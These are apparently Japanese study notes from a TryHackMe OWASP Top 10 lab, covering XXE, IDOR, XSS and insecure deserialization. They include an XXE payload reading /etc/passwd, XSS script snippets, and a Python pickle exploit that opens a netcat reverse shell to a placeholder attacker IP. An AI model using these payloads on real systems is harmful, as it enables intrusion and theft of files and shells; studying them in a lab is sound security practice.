 ### XML外部実態攻撃

#### XXE

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
<userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
</userInfo>

<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

### IDOR(Insecure Direct Object Reference)

- <https://example.com/bank?account_number=1234>が得られたとき、パラメータを手動でずらして試す

### セキュリティ設定ミス

- [セキュリティ設定ミスのOWASPトップ10](https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration.html)

### XSS

- Stored XSS
- Reflected XSS
- DOM-Based XSS

```html
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
<script>document.getElementById("thm-title").innerText = "I am a hacker"</script>
```

### Insecure Deserialization

`picklme.py`

```py
import base64
import pickle

command = "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f"


class rce(object):
    def __reduce__(self):
        import os

        return (os.system, (command,))


print(base64.b64encode(pickle.dumps(rce())))
```
